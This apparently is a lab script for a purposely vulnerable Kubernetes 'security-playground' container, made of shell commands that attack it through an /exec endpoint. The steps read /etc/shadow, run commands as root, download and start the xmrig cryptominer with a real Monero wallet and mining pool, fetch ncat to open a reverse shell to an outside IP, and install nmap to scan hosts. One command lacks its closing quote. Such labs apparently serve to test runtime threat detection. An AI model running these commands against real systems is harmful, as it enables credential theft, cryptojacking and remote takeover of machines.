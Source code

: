 # Prepare test workload
```
 kubectl create deployment playground --image=manuelbcd/security-playground:1.0.6
 kubectl expose deployment playground --port=80 --target-port=8080 --name=playground --type=LoadBalancer
```

# Configure local parameters
```
LOAD_BALANCER_URL=$(kubectl get svc playground -n default -o json | jq -r '.status.loadBalancer.ingress[].hostname')
PORT=80
echo "Target: $LOAD_BALANCER_URL:$PORT"
```

# Read the file /etc/shadow
```
curl $LOAD_BALANCER_URL:$PORT/etc/shadow
```

# Get a list of files
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ls -la'
```

# Get my user (we are root)
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=uname -a'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=whoami'
```

# Istall cryptominer
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget -O file.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=tar -xvf file.tar.gz
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=sleep 1 && nohup ./xmrig-6.16.4/xmrig --donate-level 100 -o xmr-us-east1.nanopool.org:14433 -k -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero'
```

# Check that cryptominer is installed
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ps -aux'
```

# Open reverse shell
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=chmod +x ncat'
sleep 1 && nohup curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=./ncat 34.77.63.85 34444 -e /bin/bash' &> /dev/null & nc -lnvp 34444
```

# Install nmap and scan hostts
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=apt-get update; apt-get -y install nmap'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=nmap -v scanme.nmap.org'
```






